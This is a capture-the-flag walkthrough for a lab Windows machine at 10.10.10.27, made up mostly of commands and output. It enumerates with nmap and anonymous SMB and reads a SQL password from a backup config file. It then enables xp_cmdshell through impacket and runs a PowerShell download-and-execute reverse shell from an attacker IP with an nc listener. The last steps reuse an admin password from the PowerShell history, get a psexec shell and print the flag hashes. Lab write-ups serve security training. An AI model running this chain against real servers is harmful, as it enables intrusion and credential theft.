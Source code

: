 # 10.10.10.27

---

## nmap -sS -sC -sV 10.10.10.27

```
PORT     STATE SERVICE    VERSION
135/tcp  open  tcpwrapped
139/tcp  open  tcpwrapped
445/tcp  open  tcpwrapped Windows Server 2019 Standard 17763 tcpwrapped
1433/tcp open  ms-sql-s   Microsoft SQL Server 2017 14.00.1000.00; RTM
```

---

## smbclient -N -L 10.10.10.27

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

---

## smbclient -N \\\\10.10.10.27\\backups

```
  .                                   D        0  Mon Jan 20 15:20:57 2020
  ..                                  D        0  Mon Jan 20 15:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 15:23:02 2020

```

## In config:

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Username: ARCHETYPE

Pass: M3g4c0rp123

---

## python3 impacket/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth

++ [Code Fix of tds.py](https://github.com/SecureAuthCorp/impacket/issues/856)

```
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> exec sp_configure 'Show Advanced Options', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> exec sp_configure 'xp_cmdshell', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL  
```

No admin privileges.

Next is reverse shell.

---

## xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.65/shell.ps1\");""

Script saved in ```shell.ps1```, had to do some clean up and fix the IP adress.

```
    sudo python3 -m http.server 80  //  shell.ps1 taken from here.
    sudo nc -lvnp 443   //  Reverse shell is sent to here.
```
Reverse shell is now ready.

---

## type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

Username: administrator
Pass: MEGACORP_4dm1n!!

---

## python3 impacket/psexec.py administrator@10.10.10.27

And we have a privileged remote shell.

---

## Inside users


user.txt:
    ~~3e7b102e78218e935bf3f4951fec21a3~~

root.txt:
    ~~b91ccec3305e98240082d4474b848528~~

